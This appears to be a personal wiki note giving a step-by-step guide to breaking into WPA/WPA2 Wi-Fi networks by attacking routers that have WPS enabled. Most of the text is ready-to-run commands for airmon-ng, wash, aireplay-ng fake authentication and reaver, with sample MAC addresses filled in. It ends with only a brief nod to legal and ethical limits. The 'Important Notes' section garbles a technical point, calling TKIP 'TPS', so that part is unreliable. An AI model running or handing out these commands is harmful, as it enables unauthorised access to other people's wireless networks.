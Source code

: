 up:: [[WPA and WPA2 Cracking]]
## Hacking WPA & WPA2

This guide provides steps to hack [[Wi-Fi Protected Access (WPA)|WPA]]/[[Wi-Fi Protected Access II (WPA2)|WPA2]] networks without using a [[wordlists for password cracking|wordlist]]. The method relies on exploiting routers with WPS enabled. Though it’s unlikely, it's worth trying as it might succeed if someone has misconfigured their router.

### Steps

1. **Open Two Terminator Windows**
   - Open two separate Terminator windows for running the necessary commands.

2. **Set Wireless Adapter to Monitor Mode**
   - Set your wireless adapter to monitor mode to capture network traffic.
     ```bash
     sudo airmon-ng start mon0
     ```

3. **Find Computers with WPS Enabled**
   - In the first Terminator window, run the `wash` command to scan for devices with WPS enabled.
     ```bash
     wash --interface mon0
     ```
   - If any devices appear in the output, they have WPS enabled and are potential targets. If nothing shows up, no routers in your vicinity have WPS enabled.

4. **Run Fake Authentication Attack**
   - In the first Terminator window, prepare the [[Fake Authentication Attack|fake authentication]] attack command but don’t hit enter yet.
     ```bash
     sudo aireplay-ng --fakeauth 30 -a 64:16:F0:EC:7B:F3 -h 48:5D:60:2A:45:25 mon0
     ```
   - This command will attempt to associate with the router every 30 seconds.

5. **Run Reaver Attack**
   - In the second Terminator window, prepare the `reaver` command.
     ```bash
     reaver --bssid [TARGET_BSSID] --channel 1 --interface mon0 -vvv --no-associate
     ```
   - Replace `[TARGET_BSSID]` with the BSSID of the target network.

6. **Start the Attacks**
   - Go back to the first Terminator window and press enter to start the [[Fake Authentication Attack|fake authentication]] attack.
   - Then, switch to the second Terminator window and start the `reaver` command.

### Important Notes
- **TPS (Temporal Key Integrity Protocol)** must be enabled and exposed on the target router for this method to work.
- **Reaver** often fails, hence the necessity to handle association manually.

### Example Commands
1. **Set Wireless Adapter to [[Change MAC from Managed to Monitor Mode|Monitor Mode]]:**
   ```bash
   sudo airmon-ng start wlan0
   ```
Note: this doesn't work very consistently, it's better to use this method for setting [[Change MAC from Managed to Monitor Mode|Monitor Mode]].

2. **Find WPS Enabled Devices:**
   ```bash
   wash --interface mon0
   ```

3. **Prepare [[Fake Authentication Attack|Fake Authentication]] Attack (Don’t hit enter yet):**
   ```bash
   sudo aireplay-ng --fakeauth 30 -a 64:16:F0:EC:7B:F3 -h 48:5D:60:2A:45:25 mon0
   ```

4. **Prepare Reaver Attack:**
   ```bash
   reaver --bssid 64:16:F0:EC:7B:F3 --channel 1 --interface mon0 -vvv --no-associate
   ```

5. **Execute the Attacks:**
   - First Terminator Window:
     ```bash
     sudo aireplay-ng --fakeauth 30 -a 64:16:F0:EC:7B:F3 -h 48:5D:60:2A:45:25 mon0
     ```
   - Second Terminator Window:
     ```bash
     reaver --bssid 64:16:F0:EC:7B:F3 --channel 1 --interface mon0 -vvv --no-associate
     ```

### Conclusion

This method leverages WPS vulnerabilities and, while not always successful, is worth trying before more time-intensive techniques. Ensure your wireless adapter is properly configured and keep in mind the ethical and legal implications of network [[penetration testing]].
